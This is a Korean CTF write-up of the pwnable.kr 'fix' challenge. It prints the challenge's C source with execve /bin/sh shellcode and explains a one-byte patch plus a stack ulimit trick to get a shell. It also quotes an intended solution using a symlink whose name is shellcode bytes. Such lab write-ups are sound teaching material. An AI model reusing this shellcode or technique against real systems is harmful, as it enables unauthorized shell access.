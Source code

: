 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-19-18-43-53.png)


# **Write-Up**

소스코드는 다음과 같다.

```cpp
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}
```

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec fix
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.6/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.7.0)
[*] '/root/fix'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

sc의 주소는 0x0804a02c이다.

![](images/2022-01-19-18-55-55.png)

shellcode함수에서 return이 주소는 buf의 주소로 임으로 shellcode가 실행된다.

![](images/2022-01-19-20-04-47.png)

shellcode가 실행되기 전 stack은 다음과 같다.

![](images/2022-01-19-20-06-13.png)

먼저 eax가 push가 될 때 stack은 다음과 같이 되고,

![](images/2022-01-19-20-06-26.png)

/bin이 push가 될 때 stack은 다음과 같이 되고,

![](images/2022-01-19-20-06-53.png)

//sh이 push가 될 때 stack은 다음과 같이 되고,

![](images/2022-01-19-20-07-16.png)

다음 eax가 push될 때, execve를 호출하는 부분을 침범하기 때문에 의도대로 shellcode를 실행할 수 없다.

![](images/2022-01-19-20-08-19.png)

문제가 되는 eax를 push할 때, esp는 0x6E69622F (=/bin)인데, push eax가 아닌 pop esp를 시키면 이후 push ebx때에도 shellcode를 침범하지 않는다.

이때 현재 esp에서 0x6E69622F까지는 범위가 매우커서 이동이 되지 않는다.

```sh
fix@pwnable:~$ ulimit -a
... 생략 ...
stack size              (kbytes, -s) 8192
... 생략 ...
```

stack의 사이즈를 무제한으로 늘린다.

```sh
fix@pwnable:~$ ulimit -s unlimited
fix@pwnable:~$ ulimit -a
... 생략 ...
stack size              (kbytes, -s) unlimited
... 생략 ...
```

그리고 push eax가 아닌 pop esp로 변경하기 위해 0x50을 0x5C (=92)로 바꿔준다.

> [OP CODE](http://sparksandflames.com/files/x86InstructionChart.html)

FLAG를 획득하자.

```sh
fix@pwnable:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```

* 의도된 해결은 다음과 같다고 한다.

```sh
1. change 15th index of shellcode into 0xc9 (201)
2. create symlink for a shell script input file:
ln -s /tmp/fix8/a.sh `perl -e 'print"\x83\xc4\x10\x83\xec\x0c\x50\xe8\x4d\x61\x01"'`
3. put whatever commands in a.sh. these commands will be executed as fix_pwn
```

# **FLAG**

**Sorry for blaming shell-strom.org :) it was my ignorance!**